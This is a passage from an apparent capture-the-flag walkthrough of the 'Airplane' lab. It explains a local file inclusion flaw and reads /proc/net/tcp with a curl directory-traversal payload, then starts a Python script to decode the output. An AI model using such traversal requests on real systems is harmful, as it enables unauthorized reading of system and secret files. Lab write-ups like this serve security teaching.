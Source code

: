 The source code confirms our LFI. The line `page = 'static/' + request.args.get('page')` is the culprit. By providing `../../...` in the `page` parameter, we escape the `static/` directory and can roam the filesystem.

### Step 3: Deeper Enumeration - What Is Running?

The code itself doesn't seem to offer another vulnerability. So, what else can we find with our file-reading powers? Let's check active network connections with `/proc/net/tcp`.

```bash
# Listing active TCP connections
❯ curl -s 'http://airplane.thm:8000/?page=../../../../proc/net/tcp'
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
   0: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 16163 1 0000000000000000 100 0 0 10 0
   1: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 19114 1 0000000000000000 100 0 0 10 0
   2: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 18530 1 0000000000000000 100 0 0 10 0
   3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 21651 1 0000000000000000 100 0 0 10 0
   4: 00000000:17A0 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 21091 1 0000000000000000 100 0 0 10 0
   5: 924D0A0A:B5A2 54E5FD03:01BB 02 00000001:00000000 01:00000481 00000004     0        0 71191 2 0000000000000000 1600 0 0 1 7
   6: 924D0A0A:1F40 80CE150A:D82E 01 00000000:00000000 00:00000000 00000000  1001        0 71193 1 0000000000000000 27 4 30 10 -1
```

This output is a bit cryptic. The IPs and ports are in little-endian hexadecimal. A quick Python script can help us translate this into something human-readable.

```python
import socket

# A handy script to decode /proc/net/tcp
tcp_states = {
    '01': 'ESTABLISHED', '02': 'SYN_SENT',   '03': 'SYN_RECV',
    '04': 'FIN_WAIT1',   '05': 'FIN_WAIT2',  '06': 'TIME_WAIT',
    '07': 'CLOSE',       '08': 'CLOSE_WAIT', '09': 'LAST_ACK',
    '0A': 'LISTEN',      '0B': 'CLOSING',    '0C': 'NEW_SYN_RECV'
}

def hex_to_ip(hex_ip):
    ip_bytes = bytes.fromhex(hex_ip)
    return socket.inet_ntoa(ip_bytes[::-1])

def hex_to_port(hex_port):
    return int(hex_port, 16)

# Paste the data from curl here
raw_data = """
   0: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 16163 1 0000000000000000 100 0 0 10 0
   1: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 19114 1 0000000000000000 100 0 0 10 0
   2: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 18530 1 0000000000000000 100 0 0 10 0
   3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 21651 1 0000000000000000 100 0 0 10 0
   4: 00000000:17A0 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1001        0 21091 1 0000000000000000 100 0 0 10 0
   5: 924D0A0A:1F40 80CE150A:87E2 01 00000000:00000000 00:00000000 00000000  1001        0 71212 1 0000000000000000 27 4 28 10 -1
"""

```